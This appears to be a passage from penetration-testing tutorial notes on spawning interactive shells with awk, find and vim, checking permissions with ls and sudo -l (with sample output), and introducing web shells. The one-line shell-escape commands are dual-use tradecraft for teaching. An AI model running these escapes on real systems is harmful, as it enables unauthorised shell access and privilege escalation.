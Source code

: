 ```shell
awk 'BEGIN {system("/bin/sh")}'
```

[Find](https://man7.org/linux/man-pages/man1/find.1.html) is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria. It can also be used to execute applications and invoke a shell interpreter.

```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

This use of the find command is searching for any file listed after the `-name` option, then it executes `awk` (`/bin/awk`) and runs the same script we discussed in the awk section to execute a shell interpreter.

```shell
find . -exec /bin/sh \; -quit
```

This use of the find command uses the execute option (`-exec`) to initiate the shell interpreter directly.

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor `VIM`.

```shell
vim -c ':!/bin/sh'
```

In addition to knowing about all the options listed above, we should be mindful of the permissions we have with the shell session's account. We can always attempt to run this command to list the file properties and permissions our account has over any given file or binary :

```shell
ls -la <path/to/fileorbinary>
```

We can also attempt to run this command to check what `sudo` permissions the account we landed on has :

```shell
sudo -l
Matching Defaults entries for apache on ILF-WebSrv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User apache may run the following commands on ILF-WebSrv:
    (ALL : ALL) NOPASSWD: ALL
```

## Introduction to Web Shells :

Web applications are often the majority of what we see exposed during an external network assessment and often present an enormous attack surface.

A `web shell` is a browser-based shell session we can use to interact with the underlying operating system of a web server. Again, to gain remote code execution via web shell, we must first find a website or web application vulnerability that can give us file upload capabilities. Most web shells are gained by uploading a payload written in a web language on the target server.
